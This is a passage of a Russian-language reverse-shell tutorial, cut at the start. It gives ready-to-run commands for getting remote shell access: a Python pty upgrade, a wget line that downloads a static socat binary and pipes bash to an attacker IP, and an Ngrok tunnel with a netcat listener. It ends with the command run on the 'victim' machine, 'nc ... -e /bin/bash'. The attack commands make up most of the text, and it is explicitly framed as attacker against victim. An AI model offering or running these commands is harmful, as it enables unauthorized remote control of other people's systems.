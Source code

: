 
Если соединение успешно, вы получите доступ к командной оболочке.

### 3. Python

Если нужен интерактивный шелл (TTY), используйте:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### 4. Socat

Если Python отсутствует, можно использовать **Socat**. Установите Socat на сервер через wget:

```bash
wget -q <https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat> -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:5555
```

### 5. Ngrok

**Ngrok** — это сервис, который позволяет создавать обратные соединения, даже если у вас отсутствует публичный IP-адрес. Вот пошаговое руководство по его использованию:

### Установка Ngrok

1. **Регистрация**: Зарегистрируйтесь на сайте [Ngrok](https://www.ngrok.com/) или используйте аккаунт Google.
2. **Скачивание**: Скачайте программу для вашей операционной системы и сохраните её в удобное место.
3. **Изучение команды**: Ознакомьтесь с командами, выполнив `./ngrok` в терминале.

### Создание обратного соединения

**На атакующем компьютере:**

1. Запустите Ngrok:
    
    ```bash
    ngrok tcp 4444
    ```
    
    Это позволит вашему реверс-шеллу принимать входящие соединения и перенаправлять их на порт 4444.
    
2. Запустите Netcat для прослушивания порта:
    
    ```bash
    nc -lnvp 4444
    ```
    
    После перенаправления соединения на этот порт у вас откроется shell-оболочка.
    

**На компьютере жертвы:**

1. Запустите реверс-шелл. Например:
    
    ```bash
    nc 0.tcp.ngrok.io 17300 -e /bin/bash
    ```
    